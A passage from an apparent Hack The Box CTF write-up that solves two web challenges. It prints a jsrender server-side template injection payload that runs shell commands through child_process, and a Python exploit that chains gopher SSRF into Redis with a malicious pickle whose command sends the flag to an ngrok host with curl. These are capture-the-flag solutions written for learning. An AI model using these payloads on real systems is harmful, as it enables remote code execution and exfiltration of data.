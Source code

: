 The admin dashboard uses the templating engine to print out usernames, so we create a username with an [SSTI exploit](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jsrender-nodejs) for jsrender and refresh the /admin dashboard with our tampered jwt token.
```
POST /register HTTP/1.1
Host: XXX
User-Agent: XXX
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: XXX
Content-Type: application/json
Origin: XXX
Content-Length: 187
Connection: close
Cookie: session=XXX
{"username":"{{:\"pwnd\".toString.constructor.call({},\"return global.process.mainModule.constructor._load('child_process').execSync('cat /flag.txt').toString()\")()}}","password":"test"}
```

HTB{Pr3_C0MP111N6_W17H0U7_P4DD13804rD1N6_5K1115}

## Web - TrapTrack
This flask application uses redis with a worker waiting to do a health check on an URL with `PyCurl`. Redis deserialises set through `HSET`. We exploit an insecure deserialization vulnerability by pickling a command to send the flag to our server and execute it on Redis through SSRF.

exploit.py
```python
import requests
import base64
import pickle

victim_url = 'http://209.97.134.50:31920/'
url = 'https://ea58-2a02-a03f-e416-1500-9fe4-ab5f-a6cd-d3a8.eu.ngrok.io'

def payload(cmd):
    class rce(object):
        def __reduce__(self):
            import os
            return os.system, (cmd,)
    dmp = pickle.dumps(rce())
    return dmp
            


response = requests.post(victim_url + 'api/login', json= {'username':'admin', 'password':'admin'})
print(response.cookies)

pickledPayload = base64.b64encode(payload('/readflag > /tmp/flag; curl -d @/tmp/flag ' + url))
print(f'{pickledPayload=}')

ssrf = 'gopher://127.0.0.1:6379/_' + requests.utils.quote(f"HSET jobs 100 {pickledPayload.decode()}\nSAVE") 
print(ssrf)

response = requests.post(victim_url + 'api/tracks/add', json={'trapName':'SSRF', 'trapURL':ssrf}, cookies=response.cookies) 
print(response.text)
```
HTB{tr4p_qu3u3d_t0_rc3!}
